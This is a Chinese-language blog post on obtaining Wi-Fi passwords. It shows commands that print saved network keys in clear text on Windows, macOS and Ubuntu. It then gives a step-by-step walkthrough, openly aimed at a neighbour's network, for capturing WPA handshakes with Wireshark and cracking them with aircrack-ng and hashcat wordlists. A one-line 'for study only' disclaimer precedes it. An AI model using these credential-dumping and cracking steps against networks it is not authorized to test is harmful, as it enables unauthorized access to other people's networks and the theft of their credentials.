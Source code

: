 ```yaml
---
title: 获取 WI-FI 密码
author: Von
date: 2019-11-18 18:03:06
subtitle: 如何获取你知道/不知道的 wifi 密码
header-img: bg.jpeg
tags:
    system
    wifi
---
```


<!-- toc -->

> 本文仅限于学习，请勿用于非法用途 否则后果作者概不负责

## 获取链接过的 wifi 密码
### Windows:

管理员运行：
```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```

还有一种方法：可以获取指定名称的wifi信息
step 1:获取所有链接过的wifi名称

```
netsh wlan show profile
```
step 2:指定wifi名称获取相关信息( 下面代码中wifi_name 是step 1 中列出的名称 )

```
netsh wlan show profile wifi_name key=clear
```

### Mac

打开 `keychain` 钥匙串
选择 系统，种类：密码
通过Wi-Fi名字查看密码

### Ubuntu

从配置文件中获取 psk 的值
```
$ sudo grep psk= /etc/NetworkManager/system-connections/*
```

## 如何获取邻居家 wifi 密码
### 环境准备

- 系统：macOs Mojave 双核8G
- 工具：aircrack-ng; wireshark; hashcat 
- 参考链接：[Louis Abraham's](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)

### 开始

官网下载：[wireshark](https://www.wireshark.org/download.html)

由于原本就有 [homebrew](https://brew.sh/)，不再重述下载过程。
首先下载 [aircrack-ng](https://www.aircrack-ng.org/)，这里用于暴力破解 Wi-Fi 密码
```
brew install aircrack-ng
```

[hashcat](https://hashcat.net/hashcat/) 世界上最快的密码破解程序
```
brew install hashcat
```

### 用 wireshark 获取 WPA 包

#### WPA 简介
WPA（英语：Wi-Fi Protected Access），意即“Wi-Fi访问保护”，是一种保护无线网络（Wi-Fi）访问安全的技术标准。

#### Mojave 不能使用 airport 抓包

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport

sudo airport -s
// Ctrl-C to stop capturing after 2-5 minutes
sudo airport en1 sniff $CHANNEL

```
这个方式简单，但是新的系统不支持，只能通过 wireshark 抓包

#### wireshark 抓包

开启监控模式
![](wireshark.png)

filter:
```
eapol or wlan.fc.type_subtype == 0x08
```

抓取 5分钟 左右，保存.pcap

### 爆破
#### 通过 aircrack-ng 暴力破解密码

```
aircrack-ng test.pcap -w 密码字典文件
```

![](aircrack.png)

如果有 `WPA (1 handshake)` 则输入前面的编号 `Index number of target network ? 4643`

否则重复上述 wireshark 抓包过程

如果这步成功，成功的关键就在于密码字典，可以在github搜一下，可以找到的字典集我都试过（有上千万的数据了），目前我没有好的可以推荐，因为没有成功破解我邻居的密码:)尬...

#### hashcat 破解

在线转化文件`pcap->hccapx` https://hashcat.net/cap2hccapx/

在我本子上跑温度飙到了 96c 只能放弃
